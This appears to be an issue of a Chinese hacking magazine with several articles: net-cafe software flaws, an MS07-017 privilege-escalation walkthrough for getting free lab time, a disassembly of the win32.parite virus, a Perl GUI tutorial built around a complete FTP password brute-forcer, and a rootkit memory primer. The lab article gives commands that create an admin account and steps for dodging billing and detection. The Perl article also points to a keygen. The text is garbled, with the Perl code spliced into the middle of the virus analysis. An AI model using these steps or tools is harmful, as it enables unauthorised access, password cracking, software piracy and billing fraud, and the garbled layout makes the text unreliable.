“内存占用率降低，系统性能优化”，不知怎么的，反正这句话在我们这家网吧是没有得到验证。不管是控制台还是服务器端，特别是那句“系统性能优化”，不知道优化在哪里？因为是个收费的软件，所以每次启动它时和启动它后，它会自动地向客户端发送数据包来相互通信，而且当有些会员充钱或者办会员卡的时候，控制台会无故地死掉，有时甚至搞得收费台的主机都会挂掉。因此我觉得这也是这个软件存在的问题。

最后我们谈谈它的 Web 管理页面。这个功能好像是最新版中才有的，一个新的功能哈。这个页面是程序生成的，因为不会存在什么漏洞吧，而且是用的 HTTPS 的加密方式进行传输，后台的地址还区分大小写。这里就有人想不通了，这个难道也有不足么？确实，这些东西表面上看起来确实不错，可是危害一样存在着。就拿我们这的网吧来说吧，默认的地址是：**https://192.168.0.254/Netcafe**。默认的用户名密码我就不说了，这个地址可以在 IE 中直接打开，就像上面那个加锁的一样；但是又和它不一样，因为这个地方更容易让网管忽视，后台的功能也很强大地说（可惜了，我把这事跟主管说了，结果他做了个 IP 限制，下面的机子才打不开那个入口，所以我就没有作更多的研究）。但是不管怎么说，这款软件比起其他来确实有过人之处，但是我们不能忽视其他因素而一味地相信软件本身。这里只是对 Pubwin2007 这个软件在我们使用的过程中遇到的几点问题提出的几个想法而已！

> 编辑点评：本文介绍了最新版 Pubwin2007 的一些特点，对于新版功能上的改进，作者并没有轻易相信，而是亲自进行了验证，这种怀疑的精神很值得我们学习呀。通过作者的验证，得出结论，官方对该软件的说法有些夸大其词。所以在求学的道路上，我们要多动脑多动手，不能盲目地信从啊。

## 利用 MS07017 本地提权突破机房管理系统

■ 张碧辉

- 从本文中你可以学到：
  1. 北京昊海融星机房收费系统的破解
  2. 利用 MS07017 溢出漏洞本地提权

说起 MS07017 漏洞，大家可能都会想起 Windows 动态光标远程执行代码漏洞，挂马必备武器，这只是漏洞的一部分。其实它还包含本地特权提升漏洞。读者可以去看看漏洞公告，我就介绍一下提权漏洞的利用方法。我们学校机房装的是 Windows 2000，管理软件是北京昊海融星的，学生登录的 Windows 账号是 USER 权限，权限很低。所以要在机房“有所作为”就必须提升权限。因为这个漏洞比较新，大部分机房都没有打补丁，利用的潜力还是蛮大的！

### 一、提升权限

网上的利用工具大都是网马生成器，我自己找到代码编译了一个工具。首先用自己的学号登录，打开 Wsyscheck（一款系统检测维护工具）查看进程。如图 1 所示，可以看到此管理系统的进程是 `servers`、`server`、`Intelnet`、`Intelenet.exe` 是修改密码和充值的，`servers.exe` 是主要的进程，`server` 是监控进程。

发现 `servers` 被结束就会发出报警声，在 USER 权限下是无法结束 `server`，因此提升权限就是突破口了。在 CMD 运行 Exploit，只看见闪一下就完成了，速度之快令人叫绝，如图 2 所示。心想哪天自己也能够写出这样个 Exploit 多好啊。然后在溢出成功的那个窗口中输入 `net user 123 /add&&net localgroup administrators 123 /add`（小编：“&&” 用来执行多条命令，不管前面的命令是否执行成功，都会向下执行；“&” 同样是执行多条命令，不同之处在于当执行某条命令出错的时候将不再执行后面的命令。）。回显成功了，有了 ADMIN 权限，接下来的事都好办了。

### 二、注销系统 免费上机

经过在机房的实践探索，我发现这个管理软件的下机注销过程应该是这样的：学生运行 `newlogoff` 确定下机，注销成功后由 `servers` 来执行关闭计算机。因此只要在注销成功的同时迅速结束 `servers`，电脑就不会关机了。具体步骤：注销当前的账号，用 123（刚才创建的管理员账号）登录。运行冰刃，找到 `servers.exe` 进程，双击桌面上的下机注销，如图 3 所示。

先不要点确定，不然前面的工作都白忙了。这时一定要眼疾手快，因为要在 1、2 秒内结束 `servers.exe`，慢了电脑就自动关机了。把两个窗口的位置调整好，以便按“确定”后能快速结束 `servers` 进程。激动人心的时刻来了，如前所述一样，注销成功了，但电脑还是傻傻地开着，这样我们的卡号就不会继续计费了，如图 4 所示。

这时还要把管理软件相关的进程结束，否则会出现“非法登录，电脑即将关机”的警告。成功后别忘了把本机的网 IP 改下，也别玩得过火了。因为主控端会显示你的 IP 地址没有相应的学生账号，这样容易被老师查到。我建议还是从技术的角度学习方法，别搞破坏。

> 【文章中提到的提权工具在光盘中有收录】

**编辑点评：**
这篇文章很简单，没什么可点评的了，拿出来给小菜们学习一下吧。小黑妮，就当复习一下学过的知识喽。

## 利用 OD 分析 win32.parite 病毒

从本文你可以学到：

一个病毒文件的 OD 分析

前两天在网上下了个“pcanywhere 密码查看工具”，一打开这个工具系统文件保护就启动了，如图 1。

我的第一感觉是这个密码查看工具一定有问题，可能被绑马了，并且这个马还挺牛的，把系统文件给修改了。马上调出卡巴对密码查看工具进行了一番查杀，报告如图 2 所示。

原来是个病毒呀？从百度搜索这个病毒的资料，发现它是感染 exe 文件的，但是并没有盗账号之类的龌龊功能，感觉是病毒作者跟我们开的玩笑。不过话说回来，感染 exe 文件就已经够麻烦的了。还好这个病毒感染 exe 文件的速度不是很快，下了专杀工具，三下五除二就把它给灭了（不过还留了一个病毒样本）。由于本文是分析病毒的，杀毒的过程就不具体讲了，不然就骗稿费了呀。

一日无聊，就拿出了病毒样本想用 OD 调试一番，知道它的运行原理，于是也就有了此文。

首先用 PEiD 查了下病毒样本，具体如图 3。

从图中可以看到感染后的程序多了一个节（`.oli--`），经过测试，这个节名是随机生成的，并且入口点地址也就在这个节上，那么要知道病毒的执行原理，我们就必须分析这个节的代码。

用 OD 载入病毒样本后，看到了如下代码：

```asm
0046B000  > B9 722FFA02      mov ecx,2FA2F72      ; 异或的密钥
0046B005    68 1CB04600      push pcanywhe.0046B01C
0046B00A    5E               pop esi            ; esi=解码的起始地址
0046B00B    68 C4060000      push 6C4
0046B010    5A               pop edx            ; edx=要进行解码的内存大小
0046B011    FF3432           push dword ptr ds:[edx+esi]
0046B014    310C24           xor dword ptr ss:[esp],ecx
0046B017    8F0432           pop dword ptr ds:[edx+esi]
0046B01A    83EA03           sub edx,3
0046B01D    4A               dec edx
0046B01E    75F1             jnz short pcanywhe.0046B011 ; 循环异或解码
```

很明显这段代码是对 `0046B020`（`jnz short pcanywhe.0046B011` 后的代码）开始的数据进行异或运算的，在 OD 中可以看到从 `0046B020` 开始的代码都是没有规则的，也就是通过异或运算进行编码过的，那么以上代码就是对编码后的代码进行解码的，而异或运算的密钥（这里是 `2FA2F72`）是随机生成的，也就是说每个被感染的文件所对应的密钥都是不一样。

在 `0046B020` 处 F4，当解密完成后，从 `0046B020` 开始的代码也就整齐多了，如下：

```asm
0046B020    E8 7D010000      call pcanywhe.0046B1A2
0046B025    0000             add byte ptr ds:[eax],al
0046B027    0000             add byte ptr ds:[eax],al
0046B029    C04000           add byte ptr ds:[eax],al
0046B02C    0010             add byte ptr ds:[eax],dl
0046B02E    0000             add byte ptr ds:[eax],al
0046B030    001E             add byte ptr ds:[esi],bl
```

我们 F7 进 Call，跳过几行之后看到如下代码：

```asm
0046B1A3    8BEC             mov ebp,esp
0046B1A5    81C4 B4FEFFFF    add esp,-14C
0046B1AB    C645 F700        mov byte ptr ss:[ebp-9],0
0046B1AF    8BC5             mov eax,ebp
0046B1B1    83C004           add eax,4
0046B1B4    8B10             mov edx,dword ptr ds:[eax]
0046B1B6    83EA05           sub edx,5
0046B1B9    8955 FC          mov dword ptr ss:[ebp-4],edx
0046B1BC    8B4D FC          mov ecx,dword ptr ss:[ebp-4]
0046B1BF    81C1 84000000    add ecx,84
0046B1C5    894D F8          mov dword ptr ss:[ebp-8],ecx
0046B1C8    8B45 FC          mov eax,dword ptr ss:[ebp-4]
0046B1CB    8B50 0C          mov edx,dword ptr ds:[eax+C]
0046B1CE    8B4D FC          mov ecx,dword ptr ss:[ebp-4]
0046B1D1    0351 08          add edx,dword ptr ds:[ecx+8]
```

我们知道当病毒执行完了自身代码后，就会跳到程序原来的入口点继续执行，这段代码就是计算程序原入口点的，具体计算过程如下：

- 存放入口点 RVA 的地址 = CALL 下一条指令的地址 - 5 + C
- 存放基地址的地址 = CALL 下一条指令的地址 - 5 + 8
- 入口点地址 = 入口点的 RVA + 基地址

在这段代码不远处我们又可以看到一个 CALL，具体代码如下：

> 张磊：

“独有逸，逸生时空；时空，编程之明朗。不得道者失时空，得道者时空泯灭以完工。持有异乎？”

## Perl 自动变单[伍]

从本文您可以学到：

- Perl 图形化编程的实现
- Perl 编译成可执行文件

很快就写到这组文章的最后一篇。这次我们讲的内容主要有两个方面：Perl 图形化编程的实现和编译成可执行文件。可能许多人对这两方面都不是很了解，即便是经常使用 Perl 的朋友。当然这也是因为 Perl 在这两方面上的应用不多，且可供参考的相关介绍也是比较少，这也使很多人以为使用 Perl 是无法开发图形化软件的，这是个误区，所以现在我们就一起来了解一下。

## 图形化程序的编写

带 GUI（Graphical User Interface，图形用户界面）的程序还是有一定优势的，GUI 可以拉近 Perl 语言与最终用户的距离，便于用户的理解和操作。Perl 的图形化编程主要是通过公用模块来实现的，在中国 Perl 协会的网络论坛上这一部分被归类到了 Perl 的高级应用。现存的 Perl GUI 方案有：SdlPerl、WxPerl、PerlTk、Win32Gui 及 Gtk2-Perl，不同的方案有着不同的具体实现方法。下面，我们将以 Win32 平台下的 Win32Gui 为例，为大家讲述一下。

首先，由于 Win32Gui 模块不是 ActivePerl 附带的常用模块，所以我们需要自己安装 Win32Gui 模块。在安装 Win32Gui 模块之前，还需 Microsoft Visual C++ V6 环境，VC 体积庞大，所以这个安装条件也是比较苛刻的。大家参照 readme 中的详细说明进行安装。安装完后，简单介绍一下 Win32Gui 的用法。正如其他模块，Win32Gui 也是适用于上节所讲的模块的一些通用方法，使用该模块我们可以用以下语句：

```perl
use Win32::GUI ();
my $mainWin = Win32::GUI::Window->new([OPTIONS]);
```

Win32Gui 提供了几乎 Win 窗口上的所有组件。在主窗口上添加组件，同样可以用 new() 方法，不过习惯上还是用 Add 多一点，即：

- `$mainWin->AddLabel([OPTIONS]);` # 添加标签
- `$mainWin->AddTextfield([OPTIONS]);` # 添加文本框
- `$mainWin->AddButton([OPTIONS]);` # 添加按钮
- `$mainWin->AddRadioButton([OPTIONS]);` # 添加单选按钮

[OPTIONS] 为属性参数，各类组件有其固有参数，如：-pos 位置、-name 名称、-size 大小等，不同的组件还具有特有的参数。关于参数的类型和设置，可以翻看模块说明文档 ActivePerl User Guide。

下面还是以一个简单的例子进行讲解，本例是一个图形的 ftp 密码猜解器。

```perl
#!/usr/bin/perl
use strict;
use warnings;
use NET::FTP;
use Win32::GUI;
# 使用严格语法检查、错误提示，导入 NET::FTP 和 Win32::GUI 模块

my @user;
my @password;
# 声明全局数组 @user，@password

my $mainWin = Win32::GUI::Window->new(
    -title => 'Win32Gui Ftpscaner-nohack.pl',
    -size  => [400, 350],
);
# new() 方法创建主窗口，标题为 'Win32Gui Ftpscaner-nohack.pl'，大小宽 400 高 350

$mainWin->AddLabel(
    -pos    => [70, 1],
    -size   => [205, 16],
    -align  => 'center',
    -text   => 'GUI Ftpscaner by wolf|SeaW Group!',
    -sunken => 1,
);
# 添加标签；位置 [70,1]；大小宽 205 高 16；-align => 'center' 表示文本由中间对齐；相应的参数还有 'left'、'right'；文本内容为 'GUI Ftpscaner by wolf|SeaW Group!'；-sunken => 1 表示该标签外观下陷；相应的参数还有 0 表示外观正常，或缺省为 0

my $In_ip = $mainWin->AddTextfield(
    -pos    => [1, 18],
    -name   => 'IP',
    -size   => [180, 21],
    -prompt => ['IP:', 100],
    -text   => '127.0.0.1',
);
# 添加文本框；位置 [1,18]；名称为 IP；大小宽 180 高 21；-prompt => ['IP:', 100] 表示文本框前提示符，第一个参数 'IP:'，100 为所占长度，文本内容为 '127.0.0.1'

my $In_file1 = $mainWin->AddTextfield(
    -pos    => [1, 38],
    -name   => 'user_file',
    -size   => [180, 21],
    -prompt => ['user_file:', 100],
    -text   => 'user_file.txt',
);
# 添加文本框；位置 [1,38]；名称为 user_file；大小宽 180 高 21；框前提示符 'user_file:'；长度 100；文本内容为 'user_file.txt'

my $In_file2 = $mainWin->AddTextfield(
    -pos    => [1, 58],
    -name   => 'password_file',
    -size   => [180, 21],
    -prompt => ['password_file:', 100],
    -text   => 'password_file.txt',
);
# 添加文本框；位置 [1,58]；名称为 password_file；大小宽 180 高 21；框前提示符 'password_file:'；长度 100；文本内容为 'password_file.txt'

my $button = $mainWin->AddButton(
    -pos   => [300, 18],
    -name  => 'start',
    -size  => [80, 60],
    -title => 'start',
);
# 添加按钮；位置 [300,18]；名称为 start；大小宽 80 高 60；按钮标题为 'start'

$mainWin->AddLabel(
    -pos  => [1, 80],
    -size => [180, 21],
    -text => 'Outcome:',
);
# 添加标签；位置 [1,80]；大小宽 180 高 21；文本内容为 'Outcome:'

my $outcome = $mainWin->AddTextfield(
    -pos       => [1, 95],
    -name      => 'outcome',
    -size      => [391, 204],
    -multiline => 1,
    -vscroll   => 1,
    -hscroll   => 1,
);
# 添加文本框；位置 [1,95]；名称为 outcome；大小宽 391 高 204；-multiline 为是否多行显示，1 是 0 否；-vscroll 和 -hscroll 分别是竖直和水平滚动条，同样 1 是 0 否

$mainWin->AddLabel(
    -pos    => [1, 300],
    -size   => [398, 16],
    -align  => 'center',
    -text   => "There's more than one way to do it. ——Extreme Perl",
    -sunken => 1,
);
# 添加标签；位置 [1,300]；大小宽 398 高 16；文本由中间对齐；文本内容为 "There's more than one way to do it. ——Extreme Perl"；外观下陷

$mainWin->Show();
# 这个命令将窗口显示出来
Win32::GUI::Dialog();
# 使程序进入一个窗口循环，使之能与用户进行交互

sub start_Click {
    # 与按钮 start 事件 Click 对应的子程序；此类子程序命名规则为 sub 组件名称_事件 {}

    my $IP = $In_ip->Text();
    my $file1 = $In_file1->Text();
    my $file2 = $In_file2->Text();
    # 使用 Text() 由文本框中取得数据存入变量 $IP、$file1、$file2，其使用方法为：$变量 = $文本框句柄->Text();

    if (!open(FILE, "$file1")) {
        $outcome->Append("ERROR: Could not open the [user_file]!\n");
        return;
    }
    # 判断是否成功打开 $file1，不能则向文本框 $outcome 输出错误信息，返回。此处用 Append() 向文本框中添加信息；其使用方法：$文本框句柄->Append('数据')
}
```

```
0046B1DB  FF75 F8                push dword ptr ss:[ebp-8]
0046B1DE  FF75 FC                push dword ptr ss:[ebp-4]
0046B1E1  8D55 BC                lea edx, dword ptr ss:[ebp-44]
0046B1E4  52                     push edx
0046B1E5  E8 7B000000            call pcanywhe.0046B262
```

得到要用到的函数地址

```
0046B1EA  84C0                   test al, al
0046B1EC  74 6D                  je short pcanywhe.0046B25B
0046B1EE  FF75 F8                push dword ptr ss:[ebp-8]
0046B1F1  8D4D BC                lea ecx, dword ptr ss:[ebp-44]
0046B1F4  51                     push ecx
0046B1F5  8D85 B4FEFFFF          lea eax, dword ptr ss:[ebp-14C]
0046B1FB  50                     push eax
0046B1FC  E8 05020000            call pcanywhe.0046B406
```

查看注册表 DLL 文件是否导出函数

```
0046B201  84C0                   test al, al
0046B203  74 23                  je short pcanywhe.0046B228
0046B205  66:83BD B4FEFFFF 06    cmp word ptr ss:[ebp-14C], 6
0046B20D  72 19                  jb short pcanywhe.0046B228
0046B20F  FF75 F8                push dword ptr ss:[ebp-8]
0046B212  FF75 FC                push dword ptr ss:[ebp-4]
0046B215  8D55 BC                lea edx, dword ptr ss:[ebp-44]
0046B218  52                     push edx
0046B219  8D8D B8FEFFFF          lea ecx, dword ptr ss:[ebp-148]
0046B21F  51                     push ecx
0046B220  E8 51020000            call pcanywhe.0046B476
```

直接加载 DLL 文件，调用导出函数

这个 CALL 是用来得到一些要用到的 API 函数，包括：GetModuleFileNameA、RegOpenKeyExA、RegQueryValueExA、CreateFileA、ReadFile、WriteFile、GetTempFileNameA 等。

在这个 CALL 的下面，地址为 0046B1FC 处又会出现一个 CALL，这个 CALL 是访问注册表 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer 下的 PINF 键值，此键值是病毒创建的用来存放导出的 DLL 路径的，假如此键值存在，则 0046B203 处的跳转就不会实现，那么病毒就读取此键值，而 0046B220 处的 CALL 就是加载相应路径上的 DLL 文件，并且调用其中的导出函数。假如不存在此键值，则会在 0046B203 处跳转到 0046B228。（为了不占用太多的版面，这三个 CALL 的代码就不贴出来了。）

下面我们来看 0046B228 处的代码：

```
0046B228  807D F7 00             cmp byte ptr ss:[ebp-9], 0
0046B22C  75 2D                  jne short pcanywhe.0046B25B
0046B22E  FF75 FC                push dword ptr ss:[ebp-4]
0046B231  8D45 BC                lea eax, dword ptr ss:[ebp-44]
0046B234  50                     push eax
0046B235  8D95 B6FEFFFF          lea edx, dword ptr ss:[ebp-14A]
0046B23B  52                     push edx
0046B23C  E8 81020000            call pcanywhe.0046B4C2
```

导出临时文件

在这段代码中又会看到一个 CALL，这个 CALL 主要实现从感染后的文件末尾每次读入 0x2800 字节，然后用异或算法解码，再写入创建的一个临时文件中。当最后不足 0x2800 字节时，再读取剩下的数据，解码，写入文件，其实病毒写入的临时文件是一个 DLL 文件。

当这个 CALL 返回后，就来到了 0046B241 处，在不远处，地址为 0046B256，又会看到一个 CALL，我们 F7 进去，代码如下：

```asm
0046B476  55                     push ebp
0046B477  8BEC                   mov ebp, esp
0046B479  83C4 F8                add esp, -8
0046B47C  FF75 08                push dword ptr ss:[ebp+8]
0046B47F  8B45 0C                mov eax, dword ptr ss:[ebp+C]
0046B482  FF10                   call dword ptr ds:[eax] ; LoadLibraryA
0046B484  8945 FC                mov dword ptr ss:[ebp-4], eax
0046B487  837D FC 00             cmp dword ptr ss:[ebp-4], 0
0046B48B  74 2A                  je short pcanywhe.0046B4B7
0046B48D  8B55 14                mov edx, dword ptr ss:[ebp+14]
0046B490  81C2 F5000000          add edx, 0F5
0046B496  52                     push edx
0046B497  FF75 FC                push dword ptr ss:[ebp-4]
0046B49A  8B4D 0C                mov ecx, dword ptr ss:[ebp+C]
0046B49D  FF51 04                call dword ptr ds:[ecx+4] ; GetProcAddress
```

加载导出的临时文件，获取 Initiate 函数地址

```asm
0046B4A0  8945 F8                mov dword ptr ss:[ebp-8], eax
0046B4A3  837D F8 00             cmp dword ptr ss:[ebp-8], 0
0046B4A7  74 0E                  je short pcanywhe.0046B4B7
0046B4A9  FF75 10                push dword ptr ss:[ebp+10]
0046B4AC  FF55 F8                call dword ptr ss:[ebp-8]
```

调用 Initiate 函数

这个 CALL 和 0046B220 处调用的 CALL 实现的功能是一样的，首先加载病毒的 DLL 文件（这里的扩展名是 .tmp 的），然后调用其中的导出函数 Initiate。

现在病毒的执行流程大家应该很清楚了，首先解码自身的代码，然后执行解码后的代码，得到要用到的函数地址，通过读取注册表确定 DLL 文件是否导出，导出则加载，然后调用 DLL 文件中的 Initiate 函数，没有导出则从感染文件中导出，并且加载 DLL 文件，调用 Initiate 函数。

那么我们就可以推测，这个 DLL 文件中的 Initiate 函数就是用来实现感染文件功能的，感染文件的过程就是增加一个节，然后写入编码后的病毒代码，并且把 DLL 文件编码后写入到被感染文件的末尾。

至此我们对 win32.parite 病毒的分析也就完成了，有什么问题或建议可以到黑手论坛上给我留言，我的 ID 是认真的雪。这期杂志出来的时候也已经是元旦了吧？这里借《黑客手册》的版面，祝我所有的朋友元旦快乐，暂时祝愿一模考试顺利。

## 编辑点评

看了许久的文章后发现个问题，好多作者都是在无聊当中而产生诸如分析、渗透等这类操作，也许只有无聊的时候才会更关注自己喜欢的东西吧，偶也是这样，呵呵……```perl
@user=<FILE>;
close FILE;
chomp(@user);
# 从字典文件中读取数据，关闭句柄，删去每行末的换行字符

if(!open(FILE, "$file2")) { $outcome->Append("[ERROR: Could not open the [password_file].\n"); return; }
@password=<FILE>;
close FILE;
chomp(@password);
# 同上

foreach my $user(@user){
    # foreach 循环，将 @user 中每一个元素赋给 $user
    $outcome->Append("[W] Guessing: User : $user\n");
    # 向文本框输出提示信息

    foreach my $password(@password){
        # 上面 foreach 循环的内嵌循环，将 @password 中每一个元素赋给 $password，配合实现用户名和密码的穷举配对

        my $ftp=Net::FTP->new($IP) || ($outcome->Append("[ERROR: Could not find the host[$IP].\n"));
        # 用 Net::FTP 模块连接远程主机，不能连接则输出错误提示

        if($ftp){
            my $login=$ftp->login($user,$password);
            $ftp->quit;
            # 判断连接是否成功，成功则尝试用 $user,$password 登录，然后断开连接

            if($login==1){
                $outcome->Append("[W] User: $user Password: $password \n");
                # 判断是否成功登录，成功则输出成功的登录 $user,$password

                if(!open(FILE, ">result.txt")) { $outcome->Append("[ERROR: Could not create result.txt\n"); return; }
                print FILE "Host:$IP User:$user Password:$password\n";
                close FILE;
                # 打开 result.txt 文件并负责写入结果
            }
        }
    }
}

$outcome->Append("Finished! \r\nThe result is in the result.txt\n");
# 提示程序运行完成


```

上面的代码解释得有些零碎，不过 Win32Gui 的几个基本用法（如：按钮、文本框、标签）还是都涉及到了，写简单的界面这样也就足够了，当然 Perl 的 GUI 方案还有很多，有待我们探索。我们把写好的程序运行一下，这里我使用 miniFtp 架设了一个本地 FTP 服务器，可以得到如图 1 所示效果。

我们还想把它编译成 exe 可执行文件。那么，我们看看今天的第二个内容。
图1 FTPScanner 运行结果

## 编译成可执行文件

大部分网上资料都是介绍用 Perl2Exe 来对 Perl 文件进行编译的，但事实上 Perl2Exe 对带模块 pl 脚本的支持却不是很完善，常有编译后的文件不能运行。那还有什么是现行可用的 Perl 脚本编译 exe 方案呢？相信各位读者使用的 Perl 解释器大部分还是 ActiveState 的 ActivePerl 吧。其实 ActiveState 已经提供了一套很完整的 Perl 开发方案，其中 ActiveState Perl Dev Kit（PDK）就提供了一种很有效的编译方案。该软件可以到 ActiveState 的官方网站下载，但这不同于 ActivePerl 的免费，其试用期只有 21 天，在 21 天后，用其编译的 exe 文件也将不能运行。这里我提供了一个来源于网上的注册机，当然仅作学习之用。如果想继续使用，还是建议购买。一路安装下来，都是傻瓜化的操作，编译过程也是界面操作，极其简单。不懂英文的朋友，找个对译工具也就 OK 了，自己动手吧！这里就不再赘述了。什么问题，还是到论坛交流。

> 后记：写完这组稿子，我的高三也已经过了快一半了。剩下的时间都要为前程使点小劲了。

（作者提到的 ActiveState Perl Dev Kit Pro v7.0.0.277058 及注册机、图形 FTP 密码猜解器的源文件和编译好的程序、Win32Gui 模块、miniFtp 服务器已经收录在光盘中）

**编辑点评：** 精彩的一组 Perl 入门及进阶的文章，相信作为 Perl 语言的入门读本是不错的。

## RootKit 终极解读 2

- 魔幻水晶

从本文您可以学到：
深入了解计算机及系统的运作模式及结构

作为一个 Windows 软件开发人员，经常需要创建、打开和操作各种内核对象。系统要创建和操作若干类型的内核对象，比如存取符号对象、事件对象、文件对象、文件映射对象、I/O 完成端口对象、作业对象、储备对象、互斥对象、管道对象、进程对象、信标对象、线程对象和等待计时器对象等等。这些对象都是通过调用函数来创建的。如 CreateFileMapping 函数可使系统能够创建一个文件映射对象。每个内核对象只是内核分配的一个内存块，并且只能由该内核访问。

要成为一个程序编写高手，不仅需要熟悉各种计算机语言，而且还需要懂得计算机是如何工作的。虽然不必对计算机的各个部件了解得十分清楚，但至少需要懂得计算机操作系统对内存是如何管理的。只有这样，才能编写出计算机内核级的程序来。因此，有必要先介绍这方面的内容。其实，有关计算机内存管理的书籍已经很多了，为了加深读者对这些内存管理函数使用方法的进一步认识，这里重复谈论此话题。

## 虚拟内存

所谓虚拟内存就是用硬盘空间来弥补计算机物理内存不足的技术。Windows 操作系统用虚拟内存来动态管理运行时的交换文件。为了提供比实际物理内存还多的内存容量，Windows 操作系统占用了硬盘上的一部分空间作为虚拟内存。当 CPU 有要求时，首先会读取内存中的资料。当内存容量不够用时，Windows 就会将需要暂时存储的数据写入硬盘。所以，计算机的内存大小等于实际物理内存容量加上“分页文件”（就是交换文件）的大小。Windows 98 中分页文件名采用 Win386.swp 形式，而 Windows 2K/XP/2003 中采用 pagefile.sys，默认位于系统分区的根目录下，具有隐藏属性。如果需要的话，“分页文件”会动用硬盘上所有可以使用的空间。

## CPU 工作模式

计算机系统有不同的工作模式，在不同的模式下，CPU 的寻址方式也不同。通常见到的 CPU 工作模式如下所述。

- 1. **实模式**：实模式是为了 Pentium 处理器与 8086/8088 兼容而设置的。8086 和 8088 只能工作于实模式，而 80286 及以上的处理器可工作于实模式或者保护模式下。实模式操作方式只允许微处理器寻址第一个 1MB 的存储空间，从 0x00000～0xFFFFF。在实模式下的存储器寻址是段地址 + 偏移地址。例如段寄存器的内容是 0x1000，则它寻址开始于 0x10000 的段，偏移量大小从 0x0000～0xFFFF，即偏移量的空间大小是 2^16=64KB。

- 2. **保护地址模式**：保护地址模式又称为虚拟地址存储管理方式。保护模式下主要有两种特征：

- （1）**内存分段管理**

在保护模式下，各个 16 位的段寄存器里面放置的是选择符。各项任务共享的内存空间由全局选择符来索引，而某个任务独立使用的内存空间由局部选择符来索引。由选择符的高 13 位作为偏移量，再以 CPU 内部事先初始化好的 GDTR（全局描述符表寄存器）中的 32 位基地址为基，可以获得相应的描述符。由描述符中的线性地址决定段的基地址。再利用指令（或其他方式）给出的偏移量，便可以得到线性地址，即：线性地址 = 段线性基地址 + 偏移量。

保护模式采用上面介绍的分段管理，可以实现的存储器寻址范围为 4GB，通常把通过段变换获得的地址称为线性地址。这种线性地址是同 32 位物理地址相对应的；为了获得更大的寻址范围，还可以对线性地址实行分页管理。在保护模式下，处理器通过 CR0 控制寄存器的 PG（page）位进行管理，当 PG=0 时，由段变换获得的线性地址可直接作为物理地址使用，若 PG=1，则进一步进行页变换。

- （2）**内存分页管理**

分页管理的基本思想是将内存分为大小固定为 4KB 或者 1MB 的若干页，通过一定机制对内存进行管理。与前面的分段管理类似，程序或数据将根据其长度被分配若干页。为了进行页面管理，在分页管理机制中采用了页表、页目录对线性地址作页变换。另外，我们再说说逻辑、线性和物理地址：在保护地址模式下，经常遇到三种地址：逻辑地址（Logical Address）、线性地址（Linear Address）和物理地址（Physical Address）。CPU 通过分段机制将逻辑地址转换为线性地址，再通过分页机制将线性地址转换为物理地址。

## 存储器分页管理机制

程序代码和数据必须驻留在内存中才能得以运行。然而系统内存量很有限，往往不能容纳一个完整程序的所有代码和数据，特别是在多任务系统中，如 Windows，可能需要同时打开多个执行程序，如画图、浏览器等。想让内存驻留所有这些程序显然不太可能，因此首先想到的就是将程序分割成小部分，只让当前系统运行它所需要的那部分留在内存，其他部分都留在硬盘（虚拟内存）。当系统处理完当前任务片段后，再从外存调入下一个待运行的任务片段。于是，存储器分页管理机制随之而被发明。分页机制把线性地址空间和物理地址空间分别划分为大小相同的块，这样的块称为页。通过在线性地址空间的页与物理地址空间的页之间建立映射，分页机制可以实现线性地址到物理地址的转换。线性地址空间的页与物理地址空间的页之间的映射可根据需要来确定。线性地址空间的任何一页，可以映射为物理地址空间中的任何一页。

线性地址空间的页到物理地址空间的页之间的映射用表来描述。目前所见到的有 4KB 和 1MB 大小的物理分页，对于 4KB 页面的分页，线性地址到物理地址的转换过程如图 1 所示。对于 1MB 页面分页，线性地址到物理地址的转换与 4KB 的基本相似，不同的是线性地址的低 22 位对应一个物理页面。
对于 4KB 页面分页，页映射表的第一级称为页目录表，存储在一个物理页中。页目录表共有 1024 个页目录项（PDE: page directory entry），其中，每个 PDE 为 4 字节长，包含对应第二级表所在物理地址空间页的页码；页映射表的第二级称为页表，每张页表也被存储在一个物理页中。每张页表有 1024 个页表项（PTE: page table entry），每个 PTE 为 4 字节长，其中 PTE 的低 12 位用来存放诸如“页是否存在于内存”“页的权限”等信息。一个线性地址大小为 4 个字节（32bit），包含着找到物理地址的信息，分为 3 个部分：第 22 位到第 31 位，这 10 位（最高 10 位）是页目录中的索引；第 12 位到第 21 位，这 10 位是页表中的索引；第 0 位到第 11 位，这 12 位（低 12 位）是页内偏移。在把一个线性地址转换成物理地址时，CPU 首先根据 CR3 中的值，找到页目录所在的物理页。然后根据线性地址的第 22 位到第 31 位（最高的 10bit）的值作为索引，找到相应的 PDE，其中含有这个虚拟地址所对应页表的物理地址。有了页表的物理地址后，再把虚拟地址的第 12 位到第 21 位的值作为索引，找到该页表中相应的 PTE，其中就有这个虚拟地址所对应物理页的物理地址。最后用线性地址的最低 12 位，也就是页内偏移，加上这个物理页的物理地址，就得到了该线性地址所对应的物理地址。

## 虚拟内存访问

每个进程都拥有自己的虚拟地址空间，那么怎样才能访问这个空间呢？这就需要用到 Windows API 函数。这些函数直接与编写程序相关，因而更受软件工程师的关注。有关这方面的函数较多，这里介绍几个重要的函数。（内容很多，大家自己去查 MSDN 吧，这里给大家函数原型和用途。）

```c
void GetSystemInfo(LPSYSTEM_INFO lpSystemInfo); // 获取系统信息
LPVOID VirtualAlloc(LPVOID lpAddress, DWORD dwSize, DWORD flAllocationType, DWORD flProtect); // 虚拟内存地址空间 Win32 分配函数
BOOL VirtualFree(LPVOID lpAddress, DWORD dwSize, DWORD dwFreeType); // 与上一个函数相反，用来释放
void GlobalMemoryStatus(LPMEMORYSTATUS lpmsMemStat); // 获取当前内存状态的动态信息
DWORD VirtualQuery(LPVOID lpAddress, PMEMORY_BASIC_INFORMATION lpBuffer, DWORD dwLength); // 查询本进程内存空间信息
BOOL VirtualProtect(LPVOID lpvAddress, DWORD dwSize, DWORD flNewProtect, PDWORD pflOldProtect); // 改变内存页面保护属性。此与 VirtualProtect 函数的区别在于前者用于自身，而后者则负责进程
BOOL ReadProcessMemory(HANDLE hProcess, LPCVOID lpBaseAddress, LPVOID lpBuffer, DWORD nSize, LPDWORD lpNumberOfBytesRead); // 进行对内存的读取
BOOL WriteProcessMemory(HANDLE hProcess, LPVOID lpBaseAddress, LPVOID lpBuffer, DWORD nSize, LPDWORD lpNumberOfBytesWritten); // 向进程内存写入新的内容
```

## 指针

要学好 C 语言，就必须要学好指针，而对于初学者来说，很多人对指针的含义很模糊，以至越学越糊涂。这里从内存的角度分析指针的真正含义。

